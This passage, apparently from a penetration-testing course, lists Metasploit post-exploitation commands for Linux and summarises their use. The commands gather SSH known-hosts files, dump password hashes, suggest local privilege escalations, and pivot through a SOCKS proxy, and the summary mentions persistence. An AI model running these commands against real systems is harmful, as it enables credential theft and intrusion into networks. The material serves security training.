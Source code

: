 ```
use post/multi/gather/ssh_known_hosts; set SESSION 1; run
use post/linux/gather/hashdump; set SESSION 1; run  # (needs privs)

# Local privesc suggestions
use post/multi/recon/local_exploit_suggester; set SESSION 1; run

# Pivot
route add 10.10.10.0 255.255.255.0 1
use auxiliary/server/socks_proxy; set VERSION 5; set SRVHOST 127.0.0.1; set SRVPORT 1080; run -j

# Loot view
loot
creds
```

## Summary
This module introduces practical Linux post-exploitation with Metasploit. After securing a Meterpreter session, run Linux gather modules to quickly enumerate system, network, protections, and services. Harvest credentials from SSH-related files and, when privileged, dump hashes for offline cracking. Use the local exploit suggester to guide privilege escalation attempts. For lateral movement, add routes and bring up a SOCKS proxy or port forwards. Where permitted, establish minimal persistence (e.g., SSH key). Manage your loot/creds in msfconsole and maintain good OPSEC by documenting actions and cleaning up.